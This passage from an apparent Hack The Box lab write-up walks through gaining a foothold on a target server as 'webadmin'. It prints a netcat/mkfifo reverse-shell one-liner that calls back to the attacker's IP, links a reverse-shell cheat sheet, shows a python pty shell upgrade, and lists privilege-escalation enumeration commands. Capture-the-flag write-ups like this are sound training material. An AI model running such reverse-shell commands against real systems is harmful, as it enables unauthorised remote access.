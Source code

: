 To connect to our netcat listener on our machine we create and execute the following payload through the payload interface

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4445 > /tmp/f
```

You can find the same code used here and many more useful short code snippets for gaining reverse shell here: [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

All that needs changing in the ip address and port to match our own on the HTB network and the port set in the netcat port above.

And we are in. We are webadmin on the server. From here we need to escalate our privileges until we become root.

![](.gitbook/assets/vmplayer_u8a5nuwhhg.png)

## Upgrading our Shell

The shell that we have gained so far isn't the best we could make it. I would much rather have a tty shell and tab auto complete to make our QoL a lot better. To do this we simply type into our shell:

```text
python3 -c "import pty;pty.spawn('bin/bash')"
```

from here we press ctrl + z. And then type stty raw -echo into our command line and then press fg.

What this is doing is using the fact that we have python installed on the victim to spawn a more interactive shell. By pressing ctrl + z we background our current connection to the shell. The "stty raw -echo" part allows us to pipe our type input into the shell. And from there the "fg" which you will not be able to see yourself type into the command line after typing "stty war -echo" brings back the shell into the foreground. From here we now have tab auto complete and colour sensitive output.

## User PrivEsc

Now that we have a basic user shell on the machine it is time to do some basic enumeration. My usuall first few commands that I always eneter on a linux machine are as follows:

* [ ] whoami
* [ ] hostname
* [ ] history
* [ ] uname -a
* [ ] sudo -l
* [ ] sudo su
* [ ] netstat -ano
